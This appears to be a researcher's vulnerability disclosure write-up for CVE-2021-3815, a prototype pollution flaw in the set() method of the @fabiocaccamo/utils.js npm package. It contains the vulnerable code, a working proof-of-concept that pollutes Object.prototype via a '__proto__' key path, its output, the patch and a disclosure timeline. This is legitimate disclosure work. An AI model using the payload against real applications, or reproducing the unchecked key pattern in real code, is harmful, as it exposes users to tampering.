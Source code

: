 ```yaml
---
title: 0-Day, Prototype Pollution in utils.js
description: The article is about 0-day i found first time in open-source
date: 2021-11-29 23:29:53
---
```

# Summary

> The @fabiocaccamo/utils.js is a package that provides methods with multiple functions for the convenience of developers. A vulnerability exists in one method included in this package.

I discovered a prototype pollution vulnerability via utils.js method analysis. In the 0.17.1 version package, Prototype Pollution occurs because the key value of the object is not checked within the set() method.

---
# Analysis
```javascript
set: function(obj, path, value)
        {
            var keys = path.split('.');
            var key;
            var cursor = obj;
            for (var i = 0, j = keys.length; i < j; i++) {
                key = keys[i];
                if (!TypeUtil.isObject(cursor[key])) {
                    cursor[key] = {};
                }
                if (i < (j - 1)) {
                    cursor = cursor[key];
                } else {
                    cursor[key] = value;
                }
            }
        }
// https://github.com/fabiocaccamo/utils.js/blob/master/dist/utils.js#L2360
```
If you check the set() method of utils.object.keypath, you can see that the value of the path parameter is split with dots, and then merged with the value of the value parameter based on the key value.

```javascript
const utils = require("@fabiocaccamo/utils.js");
const obj = {};
const fake_obj = {};

console.log(`[+] Before prototype pollution : ${obj.polluted}`);
utils.object.keypath.set(fake_obj, '__proto__.polluted', true);
console.log(`[+] After prototype pollution : ${obj.polluted}`);

/* 
[+] Before prototype pollution : undefined
[+] After prototype pollution : true
*/
```
I wrote PoC as above!

```plaintext
~/npm-research/utils/prototype_pollution_via_set()
❯ node poc.js
[+] Before prototype pollution : undefined
[+] After prototype pollution : true

~/npm-research/utils/prototype_pollution_via_set()
❯
> obj
	▼{}
	  ▼[[Prototype]]: Object
	     polluted: true
```
A prototype pollution vulnerability has occurred and you can see the object being polluted. I first found a prototype pollution in node module. this is my favourite vulnerability. So I’m very happy that I found it!

Also, the vulnerability has been patched, so i have been assigned CVE-2021-3815 for this vulnerability! This is my first CVE.

---
# Patched

```diff
             var cursor = obj;
             for (var i = 0, j = keys.length; i < j; i++) {
                 key = keys[i];
+                if (key === '__proto__') {
+                    break;
+                }
                 if (!TypeUtil.isObject(cursor[key])) {
                     cursor[key] = {};
                 }
# https://github.com/fabiocaccamo/utils.js/commit/d9ebbcdbcd7b89abeeb240952ff5ab01ca372a5f
```

---
# Reporting Timeline

- 2021-11-30 21h 11m : Reported this issue via the [huntr](https://www.huntr.dev/)
- 2021-12-02 17h 24m : Validated this issue by [Fabio Caccamo](https://github.com/fabiocaccamo)
- 2021-12-06 19h 46m : Patched this issue by [Fabio Caccamo](https://github.com/fabiocaccamo)
- 2021-12-07 23h 57m : Requested a CVE for this issue by [Jamie Slome](https://www.huntr.dev/users/jamieslome/)
- 2021-12-09 12h 25m : Assigned the CVE-2021-3815

---
# Reference

- [Github Issue](https://github.com/fabiocaccamo/utils.js/issues/6)
- [Github Commit](https://github.com/fabiocaccamo/utils.js/commit/d9ebbcdbcd7b89abeeb240952ff5ab01ca372a5f)
- [Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3815)
- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-3815)
- [Snyk](https://security.snyk.io/vuln/SNYK-JS-FABIOCACCAMOUTILSJS-1932614)

